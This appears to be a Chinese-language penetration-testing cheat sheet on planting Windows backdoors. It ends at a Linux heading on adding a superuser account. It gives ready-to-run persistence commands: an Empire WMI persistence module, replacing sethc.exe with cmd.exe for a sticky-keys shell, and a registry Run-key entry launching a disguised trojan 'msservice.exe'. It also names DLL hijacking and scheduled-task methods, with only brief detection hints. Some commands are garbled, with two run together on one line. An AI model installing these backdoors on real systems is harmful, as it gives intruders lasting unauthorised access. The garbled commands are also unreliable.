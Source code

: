 ## 系统后门

### Windows

**Schtasks后门**

Schtasks.exe能够在本地或远程计算机上创建，删除，查询，更改，运行和结束计划任务

不带参数运行Schtasks.exe会显示每个已注册任务的状态和下一次运行时间。

**wmi后门**

WMI后门使用了WMI的两个特征：**无文件**和**无进程**（需要管理员权限运行）。

**原理是**：将代码加密存储与WMI中，即无文件；调用PowerShell执行后门程序，执行后进程消失，即无进程。

**在Empire中使用Invoke-WMI模块**

```bash
usemodule powershell/persistence/elevated/wmi	#设置参数run
```

> **检查后门**：使用微软提供的工具`Autoruns`：
>
> https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns 

**DLL劫持后门**

DLL劫持原理就是使用 `loadlibrary` 动态加载DLL

DLL劫持工具：[SuperDllHijack](https://github.com/anhkgg/SuperDllHijack)

**映像劫持shift后门**

**替换sethc.exe为cmd.exe**

```bash
CD C:\windows\system32
cacls sethc.exe /t /e /G Administrators:f
cacls cmd.exe /t /e /G Administrators:f
ren sethc.exe aaa.exeren cmd.exe sethc.exe

#恢复
ren sethc.exe cmd.exeren aaa.exe sethc.exe
```

连按5下Shift弹出cmd窗口

> **检查后门**：连续按5下弹出cmd窗口（当然还有其它放大镜讲述人等）

木马加入开机启动项

```bash
reg add HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v SunRAC /t reg_sz /d "C:\Users\Public\Downloads\msservice.exe" 
```

### Linux

**增加超级用户账号**
